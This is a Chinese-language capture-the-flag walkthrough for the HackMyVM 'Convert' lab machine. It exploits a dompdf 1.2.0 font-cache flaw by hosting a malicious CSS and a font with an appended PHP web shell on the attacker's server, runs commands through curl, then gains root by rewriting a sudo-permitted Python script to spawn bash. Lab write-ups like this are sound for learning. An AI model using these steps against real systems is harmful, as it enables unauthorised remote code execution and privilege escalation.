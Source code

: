 # Convert

2024.12.28 https://hackmyvm.eu/machines/machine.php?vm=Convert

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

22 端口上不允许匿名登陆，看看 80 web 上有什么信息：http://192.168.5.40/ 显示了一个网页转化为 pdf 的网站。

先对其进行目录扫描，看看有什么：

```
http://192.168.5.40/index.php            (Status: 200) [Size: 1026]
http://192.168.5.40/upload               (Status: 301) [Size: 169] [--> http://192.168.5.40/upload/]
```

http://192.168.5.40/upload 403 不允许访问。其中转化出来的 pdf 是存在这个目录中 http://192.168.5.40/upload/

重点来看这个 html to pdf 的功能，把自己转换出来的 pdf 保存在 kali 上，然后查看 pdf 详细信息：

```
pdfinfo 1111.pdf

Producer:        dompdf 1.2.0 + CPDF
CreationDate:    Sun Apr 28 11:03:52 2024 CST
ModDate:         Sun Apr 28 11:03:52 2024 CST
```

看到是 dompdf 1.2.0 转换生成的，经过搜索，这个 pdf 转换库，存在 RCE 漏洞 51270.py，进行利用：

```
python3 51270.py --inject http://192.168.5.40/index.php?url= --dompdf http://192.168.5.40/dompdf/

[err]: failed to trigger the payload!
[inf]: url: http://192.168.5.40/dompdf/lib/fonts/exploitfont_normal_f776a221d3d01869caf352500f07dfe4.php - status_code: 404
[inf]: process complete!
```

但是最后出现 php 后门访问不到的情况。

经过搜索，参照了这个利用: https://github.com/positive-security/dompdf-rce

创建 3 个文件：

index.html:

```
<link rel=stylesheet href='http://192.168.5.3:9001/exploit.css'>
```

exploit.css:

```
@font-face {
    font-family:'exploitfont';
    src:url('http://192.168.5.3:9001/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
}
```

exploit_font.php:

```
find / -name "*.ttf" 2>/dev/null # 随意找到一个 ttf 文件，在其末尾写入 web shell
cp /usr/share/fonts/truetype/lato/Lato-Medium.ttf exploit_font.php

echo "<?php system('$_REQUEST[]');?>" >> exploit_font.php

echo -n http://192.168.5.3:9001/exploit_font.php |md5sum
f776a221d3d01869caf352500f07dfe4
```

然后对这个 url 进行 pdf 转换： http://192.168.5.3:9001/index.html ，然后在访问写入的后门链接：

```
curl http://192.168.5.40/dompdf/lib/fonts/exploitfont_normal_f776a221d3d01869caf352500f07dfe4.php?1=id

uid=1000(eva) gid=1000(eva) groups=1000(eva)
```

直接先进行反弹,先拿到了 user flag：

```
eva@convert:~$ cat /home/eva/user.txt
f2be48d6f922bfc0a9bf45b22887c10d
```

sudo -l 显示 `(ALL : ALL) NOPASSWD: /usr/bin/python3 /home/eva/pdfgen.py *` 看一下/home/eva/pdfgen.py 的源代码，实现的功能能将读取到的 url 内容保存到 pdf 中，但是程序中做了限制，不能用 file 和 data 的 schema，也不能访问 etc 和 root 开始的目录，找不到直接漏洞。

这个文件在/home/eva 目录中，当前用户有写权限，直接将这个文件删除，然后重建：

```
rm -f pdfgen.py
echo 'import os;os.system("/bin/bash -p")' > pdfgen.py

sudo /usr/bin/python3 /home/eva/pdfgen.py 1
```

拿到了最终的 flag：

```
root@convert:~# cat root.txt
1cc872dad04d177e6732abbedf1e525b
```
